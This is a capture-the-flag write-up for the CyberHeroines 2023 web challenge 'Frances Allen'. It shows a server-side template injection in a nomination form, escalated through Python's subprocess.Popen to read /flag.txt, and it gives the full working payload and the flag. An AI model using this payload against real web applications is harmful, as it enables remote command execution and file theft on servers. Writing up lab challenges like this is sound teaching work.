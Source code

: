 # CyberHeroines 2023

## Frances Allen

> [Frances Elizabeth Allen](https://en.wikipedia.org/wiki/Frances_Allen) (August 4, 1932 – August 4, 2020) was an American computer scientist and pioneer in the field of optimizing compilers. Allen was the first woman to become an IBM Fellow, and in 2006 became the first woman to win the Turing Award. Her achievements include seminal work in compilers, program optimization, and parallelization. She worked for IBM from 1957 to 2002 and subsequently was a Fellow Emerita. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Frances_Allen)
> 
> Chal: Build your best attack against this [webapp](https://cyberheroines-web-srv5.chals.io/) and inspire [the first woman to win the Turing Award](https://www.youtube.com/watch?v=NjoU-MjCws4)
>
>  Author: [TJ](https://www.tjoconnor.org/)
>

Tags: _web_

## Solution
We get a webapp where we can nominate `Cyber Heroines`. Putting in name and a biography we are forwarded to a page that display our input. Checking for `SSTI` we can input eg `{{5*5}}` to one of the fields and: `Nomination received for: asd with bio:25` vulnerable.

From here we only need to find a fitting workload starting with `{{''.__class__.mro()[1].__subclasses__()}}` we get a list of available classes to pick. We find `subprocess.Popen` at position `352`. So we can go futher and call system commands.

```
{{''.__class__.mro()[1].__subclasses__()[352]('cat /flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

Gives us the flag.

Flag `chctf{th3re_W4s_n3v3r_a_d0ubt_th4t_1t_w4s_1mp0rt4nt}`